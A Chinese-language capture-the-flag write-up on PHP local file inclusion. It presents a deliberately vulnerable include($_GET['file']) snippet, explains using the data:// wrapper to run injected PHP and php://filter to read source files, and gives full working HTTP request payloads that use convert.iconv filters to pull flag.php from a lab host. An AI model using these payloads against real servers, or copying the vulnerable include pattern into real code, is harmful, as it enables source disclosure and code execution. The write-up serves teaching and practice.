

# 常规三件套
1. 看源码
2. 扫描dir
3. 分析抓包

源码没啥



# 关于php文件上传中data协议的利用

```php
<?php
    @$file  = $_GET['file'];
    @include($file);
?>
```
闯入一个文件如果这个文件存在 就包含该文件，
但是没有上传按钮，如何上传，有这样一个方法，

# data 伪协议
php 5.2.0 起，数据流封装器开始有效，主要用于数据流的读取，如果传入的数据是PHP代码就会执行代码。使用方法为:

`data://text/plain;base64,xxxx(base64编码后的数据)`


include()会直接执行传入的php文件
<?php
echo "Hello World!";
?>
读文件协议
`php://filter/read/convert.base64-encode/resource=check.php`

> php://filter/ 是一种访问本地文件的协议，/read=convert.base64-encode/ 表示读取的方式是 base64 编码后，resource=index.php 表示目标文件为index.php。问什么要进行 base64 编码呢？如果不进行 base64 编码传入，index.php 就会直接执行，我们就看不到文件中的内容了。php 协议还常用 php://input，这可以访问请求的原始数据的只读流，可以读取 POST 请求的参数。

文件过滤
https://blog.csdn.net/woshilnp/article/details/117266628
# 
故此我们使用
```php
GET /?filename=php://filter/convert.iconv.§input-encoding§.§output-encoding§/resource=flag.php HTTP/1.1
Host: 61.147.171.105:62470
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

```
----

```
convert.iconv.<input-encoding>.<output-encoding> 
or 
convert.iconv.<input-encoding>/<output-encoding>
//支持的编码
UCS-4*
UCS-4BE
UCS-4LE*
UCS-2
UCS-2BE
UCS-2LE
UTF-32*
UTF-32BE*
UTF-32LE*
UTF-16*
UTF-16BE*
UTF-16LE*
UTF-7
UTF7-IMAP
UTF-8*
ASCII*
```

# PlayLoad
```
GET /?filename=php://filter/convert.iconv.UTF-8%2a.UTF-32%2a/resource=flag.php HTTP/1.1
Host: 61.147.171.105:62470
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```
